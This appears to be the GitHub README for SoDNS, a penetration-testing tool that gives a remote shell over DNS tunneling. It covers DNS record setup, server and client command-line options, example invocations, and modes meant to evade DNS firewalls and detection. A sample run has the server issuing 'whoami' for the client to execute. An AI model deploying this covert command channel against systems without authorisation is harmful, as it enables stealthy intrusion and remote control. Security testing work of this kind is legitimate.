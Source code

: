 # SoDNS - Shell over DNS

```
   _____       ____  _   _______             _____ __         ____                           ____  _   _______
  / ___/____  / __ \/ | / / ___/            / ___// /_  ___  / / /  ____ _   _____  _____   / __ \/ | / / ___/
  \__ \/ __ \/ / / /  |/ /\__ \   ______    \__ \/ __ \/ _ \/ / /  / __ | | / / _ \/ ___/  / / / /  |/ /\__ \ 
 ___/ / /_/ / /_/ / /|  /___/ /  /_____/   ___/ / / / /  __/ / /  / /_/ | |/ /  __/ /     / /_/ / /|  /___/ / 
/____/\____/_____/_/ |_//____/            /____/_/ /_/\___/_/_/   \____/|___/\___/_/     /_____/_/ |_//____/  
```


SoDNS is a client-server tool designed to execute arbitrary commands on client-side systems via DNS tunneling, with the server providing the commands. This approach offers a unique avenue for network penetration testing and DNS firewall assessment by leveraging the often-unmonitored DNS protocol for command and control (C2) communications.

## Technical Details

This tool uses DNS tunneling, a technique that encapsulates arbitrary data within DNS queries and responses, enabling it to bypass traditional network restrictions that typically block traditional ports. Flexibility in encoding and query modes allows testers to experiment with various circumvention techniques, challenging the effectiveness of DNS firewall implementations and intrusion detection systems. Different modes of operation (`-m`) can be used to attempt to circumvent various filtering and detection strategies. With different modes, you can specify the times between queries (`-t`) and the size of data to be moved with a single subdomain (`-w`). This can make detection more difficult for traditional DNS-based security controls.

## Usage

### DNS Configuration

If the tool is to be used with a domain name, dns records must be entered with the domain provider as shown below.

* **A Record:** Maps the subdomain name (`t1ns`) to your server's IPv4 address (e.g. `xx.x.x.x.xx`).
* **AAAA Registration:** Maps the subdomain name (`t1ns`) to the IPv6 address of your server (e.g. `::ffff:x.xx.xx.x.xx`).
* **NS Registration:** Assigns the subdomain name (`t1`) to your name server (e.g. `t1ns.xxxxxx.net`).

**Note:** Replace the example domain names and IP addresses with the actual values for your environment.

### Server
```bash
usage: server.py [-h] [--encode_type {base64,base85}] -d DOMAIN

DNS Server Usage:

options:
  -h, --help            show this help message and exit
  --encode_type {base64,base85}, -e {base64,base85}
                        Optional encode type for DNS data processing
  -d DOMAIN, --domain DOMAIN
                        Domain name.
```
**Example:**

```bash
python server.py -d mydomain.com -e base85 
```

### Client
```bash
usage: client.py [-h] -d DOMAIN [-s DNS_SERVER_IP] [-p DNS_SERVER_PORT] [-m {1,2,3,4,5}] [-e {base64,base85}] [-q {A,AAAA,CNAME,TXT,ALL}] [-t TIME] [-w WINDOWS_SIZE]

Perform DNS queries and resolve commands.

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain name to query.
  -s DNS_SERVER_IP, --dns_server_ip DNS_SERVER_IP
                        DNS server IP address (default: 8.8.8.8).
  -p DNS_SERVER_PORT, --dns_server_port DNS_SERVER_PORT
                        DNS server port (default: 53).
  -m {1,2,3,4,5}, --mode {1,2,3,4,5}
                        Mode option (1, 2, 3, 4 or 5, default: 1).
  -e {base64,base85}, --encode_type {base64,base85}
                        Encoding type (default: base64).
  -q {A,AAAA,CNAME,TXT,ALL}, --q_type {A,AAAA,CNAME,TXT,ALL}
                        DNS query type (default: A).
  -t TIME, --time TIME  Waiting time to between DNS Queries (Default 0 sec).
  -w WINDOWS_SIZE, --windows_size WINDOWS_SIZE
                        Length of data to be carried in DNS query (1-63, default: 63).
```
**Example:**

```bash
python client.py -d mydomain.com -e base85 -m 1
```
### Sample Scenario
The server is started. Add command with `add whoami hex`. 

![image](https://github.com/user-attachments/assets/0404853f-7db8-447f-b49a-d0a6217cff39)

The code entered by the server is executed locally and the result is returned. 

![image](https://github.com/user-attachments/assets/f8ed06cb-440d-4c78-b133-29825859a7f6)

Tested on Linux and windows systems.

## Disclaimer of Liability
This tool is for educational and research purposes only. The user is responsible for ensuring compliance with all applicable laws and ethical rules. The creators are not responsible for any misuse or consequences resulting from its use.


